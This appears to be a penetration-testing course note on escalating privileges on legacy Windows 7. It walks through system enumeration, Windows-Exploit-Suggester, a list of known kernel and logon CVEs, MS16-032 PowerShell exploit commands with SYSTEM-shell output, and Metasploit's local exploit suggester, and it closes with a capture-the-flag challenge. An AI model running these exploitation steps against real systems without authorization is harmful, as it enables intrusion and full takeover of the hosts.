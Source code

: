 # Windows 7

Windows 7 reached **End-of-Life (EOL) on January 14, 2020**, yet remains widely deployed in enterprise environments—especially in healthcare, legal, retail, and government sectors. Its lack of modern security mitigations and abundant unpatched vulnerabilities make it a common privilege escalation target.
## Security Feature Comparison

|Feature|Windows 7|Windows 10|
|---|---|---|
|Microsoft MFA Integration||✅|
|BitLocker|Partial|✅|
|Credential Guard||✅|
|Remote Credential Guard||✅|
|Device Guard (Code Integrity)||✅|
|AppLocker|Partial|✅|
|Windows Defender|Partial|✅|
|Control Flow Guard||✅|
## Context & Real-World Usage

According to NetMarketShare (Nov 2020), Windows 7 was still the **second most used OS worldwide**. Many embedded or specialized systems (e.g., POS, industrial software, and legal applications) still run on Windows 7 and cannot be easily upgraded due to budget or compatibility constraints.

> Always **evaluate business context** before issuing blanket recommendations. Some clients may need mitigation instead of removal.
## Enumeration with `systeminfo`

```cmd
systeminfo > win7-systeminfo.txt
```

This generates a full system fingerprint useful for local exploit matching.
## Using Windows-Exploit-Suggester
### Install Dependencies (Parrot/Kali)

```bash
wget https://files.pythonhosted.org/.../setuptools-2.0.tar.gz
tar -xf setuptools-2.0.tar.gz && cd setuptools-2.0/
sudo python2.7 setup.py install

wget https://files.pythonhosted.org/.../xlrd-1.0.0.tar.gz
tar -xf xlrd-1.0.0.tar.gz && cd xlrd-1.0.0/
sudo python2.7 setup.py install
```
### Update Vulnerability Database

```bash
python2.7 windows-exploit-suggester.py --update
```
### Run Against Captured Output

```bash
python2.7 windows-exploit-suggester.py --database <mssb.xls> --systeminfo win7-systeminfo.txt
```

You'll get a list of CVEs with links to:

- Exploit-DB PoCs    
- Metasploit modules
- CVSS risk ratings
## Notable Exploits Identified

| CVE / Bulletin | Description                                 |
| -------------- | ------------------------------------------- |
| **MS16-032**   | Secondary Logon Handle EoP (PowerShell PoC) |
| **MS16-135**   | NtSetWindowLongPtr Kernel EoP               |
| **MS16-075**   | RottenPotato / HotPotato (NTLM Reflection)  |
| **MS13-101**   | Kernel-Mode Driver EoP                      |
| **MS12-037**   | IE 8 ASLR/DEP Bypass                        |
## MS16-032 – PowerShell Exploit
### Execution

```powershell
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\Invoke-MS16-032.ps1
Invoke-MS16-032
```

Output:

```text
[!] Holy handle leak Batman, we have a SYSTEM shell!!
```
### Result

```cmd
whoami
nt authority\system
```
## Alternative Approach – Metasploit Local Exploit Suggester

If you’ve already obtained a Meterpreter shell:

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

This suggests usable LPE modules inside Metasploit, including for legacy OSes.
## Final Challenge

Gain access to a Windows 7 target host and:

1. Use enumeration techniques discussed above.
2. Exploit **at least one vulnerability** to elevate to `NT AUTHORITY\SYSTEM`.    
3. Locate and extract the `flag.txt` file on the Administrator's Desktop.

> Bonus: Try **multiple techniques** (Metasploit, PowerShell PoC, manual exploitation).
# Tags
> #Windows-Post-Exploitation #Windows-Privesc #LegacyOS